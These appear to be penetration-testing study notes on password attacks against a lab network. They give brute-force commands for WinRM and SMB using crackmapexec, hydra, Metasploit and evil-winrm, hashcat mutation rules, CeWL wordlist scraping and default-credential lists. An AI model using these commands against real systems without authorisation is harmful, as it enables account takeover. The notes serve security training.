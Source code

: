 ## Network Services

#### WinRM
[Windows Remote Management](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)
Microsoft's Implementation of [Web Services Management Protocol](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) which is based of [Simple Object Access Protocol](https://learn.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary)

Must be activated and configured manually in WinRM
Often used with certificates or specific authentication mechanisms to increase security. 

Ports 5985 (HTTP) and 5986 (HTTPS)

##### [Crackmapexec](https://github.com/Porchetta-Industries/CrackMapExec) 
Get username + password
```shell
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

##### Evil-WinRM
Login
```shell
evil-winrm -i <target-IP> -u <username> -p <password>
```

##### Hydra 

RDP, SSH

### SMB

```shell
hydra -L user.list -P password.list smb://10.129.42.197
```

```shell
msf6 > use auxiliary/scanner/smb/smb_login
```

```shell
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```


## Password Mutations 

#### Hashcat modifications

|**Function**|**Description**|
|---|---|
|`:`|Do nothing.|
|`l`|Lowercase all letters.|
|`u`|Uppercase all letters.|
|`c`|Capitalize the first letter and lowercase others.|
|`sXY`|Replace all instances of X with Y.|
|`$!`|Add the exclamation character at the end.|

```shell
cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```

```shell
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

Hashcat custom rules 

```shell
ls /usr/share/hashcat/rules/
```

#### CeWL

Scans words from websites and save them in a list 
-d depth to spider 
-m minimum length
```shell
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

## Password Reuse / Default Passwords

Default Creds

`creds search`
https://github.com/ihebski/DefaultCreds-cheat-sheet

Router Default Creds
https://www.softwaretestinghelp.com/default-router-username-and-password-list/

